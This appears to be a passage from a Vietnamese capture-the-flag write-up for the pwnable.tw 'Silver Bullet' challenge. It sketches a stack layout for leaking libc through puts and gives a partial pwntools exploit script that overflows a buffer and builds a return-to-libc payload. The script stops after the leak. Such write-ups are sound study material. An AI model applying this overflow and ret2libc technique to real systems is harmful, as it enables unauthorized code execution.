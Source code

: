 Thì ta chỉ cần thiết kế stack như vậy là được tức là:

|  stack      |                      |
|-------------|-----------------------|
|   ebp + 0xC | arg1 of puts          |
|   ebp+0x8   | ret of puts => main   |
|   ebp+0x4   | ret of main => puts   |
|   ebp       | old ebp               |


Sau khi mà leak được libc bằng cách gọi Puts với arg là puts got thì sẽ call lại main reload stack fram sau đấy sẽ tiếp tục như trước thay vì call puts thì call system thoi.

## exploit

```python
from pwn import *


binary = ELF("./silver_bullet_patched")
libc = ELF("./libc_32.so.6")

context.binary = binary


if args.REMOTE:
    r = remote("chall.pwnable.tw", 10103)
else:
    r = process(binary.path)
    #gdb.attach(r,api=True)

payload = ""

r.recv()
r.sendline("1")
r.recv()
r.sendline("a"*0x2f)
r.recv()
r.sendline("2")
r.recv()
r.sendline("a"*0x1)
r.recv()
r.sendline("2")
r.recv()


log.info("Addr Puts func: " + hex(binary.plt['puts']))
log.info("Addr Puts func: " + hex(binary.got['puts']))
log.info("Addr Puts func: " + hex(binary.sym['main']))

payload = b"b"*7 + p32(binary.plt['puts']) + p32((binary.sym['main'])) + p32(binary.got['puts'])

r.sendline(payload)
r.recv()

r.sendline("3")
r.recv()
r.sendline("3")
print(r.recvuntil(b"win !!\n"))

sleep(0.2)
leak = r.recv(4)
```